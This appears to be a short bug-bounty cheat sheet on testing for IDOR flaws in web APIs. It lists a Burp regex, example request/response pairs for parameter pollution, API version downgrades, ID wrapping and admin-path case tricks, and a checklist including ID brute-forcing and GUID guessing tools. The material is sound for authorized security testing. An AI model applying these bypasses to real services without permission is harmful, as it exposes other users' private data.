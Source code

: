 # IDOR

Basically try to screw with evertything.

## Burp filter

`(?i)\b\w*id\b(?!\w)\s*=\s*("[^"]*"|'[^']*'|[^&\s}]*)`

## Add parameters into the endpoints
```
GET /api_v1/messages --> 401 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

## HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK
GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

## JSON Parameter Pollution:
```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

## Add .json to the endpoint, if it is built in **Ruby**!
```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## Test on outdated API Versions
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

## Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## Wrap the ID with a JSON object:
``` 
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

## Missing Function Level Access Control

```
GET /admin/profile -> 401
GET /ADMIN/profile -> 200
```

- Try to send a wildcard(*) instead of an ID.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admin/myinfo
- Replace request method with GET/POST/PUT/DELETE/PATCH
- Check if Referer header is used to validate requests
- Swap GUID with numeric ID or email
- Try obvious GUIDs such as 00000-0000-0000-00000 or 11111-11...


## GUID

GUID v1 can be easy exploitable

- https://github.com/intruder-io/guidtool
- https://github.com/felipecaon/uuidv1gen
